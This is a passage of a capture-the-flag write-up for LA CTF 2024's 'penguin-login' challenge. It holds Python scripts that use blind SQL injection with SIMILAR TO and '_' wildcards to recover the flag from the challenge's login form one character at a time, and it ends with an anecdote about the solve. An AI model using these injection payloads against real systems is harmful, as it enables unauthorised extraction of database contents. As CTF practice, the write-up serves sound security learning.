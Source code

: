 ```py
    else:
        break
    for c in digits + ascii_lowercase + ascii_uppercase:
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        if r.status_code == 200:
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        payloadStart += "_"
        print("skipping: ", payload)
```

Due to infrastructure issues, the first character of the flag couldn't be retrieved. I had to guess it (in quite a few attempts xd)

<img class="img-responsive" src="{{ site-url }}/assets/lactf2024/penguin-login/vid/FinalPayload.gif" alt="Execution of the final script">

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

<img class="img-responsive" src="{{ site-url }}/assets/lactf2024/penguin-login/img/InterestingTicket.png" alt="Extract from an interesting conversation had in a ticket">

### How it actually went during the CTF

One evening, I was at the gym to vent the frustration of not being able to find a rock on the west coast of California, United States (I love OSINT). Just before leaving, I heard that my teammate Leandro "Loldemort" Pagano was having a bad time with an SQLi. "Let me solve it," I wrote to him.

I hadn't read the code yet when I received a message on Discord from said player, expressing interest in solving the challenge. "Just use `_`", I said jokingly. I didn't know that the character was actually whitelisted.

My teammate had already discovered the existence of `SIMILAR TO`, so once I got home, I only had to deal with writing the payload. 

#### Payload used during the CTF

`findlen.py`
```py
from requests import *
from bs4 import BeautifulSoup

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    soup = BeautifulSoup(r.text, "html.parser")
    if "We found a penguin" in soup.get_text():
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```
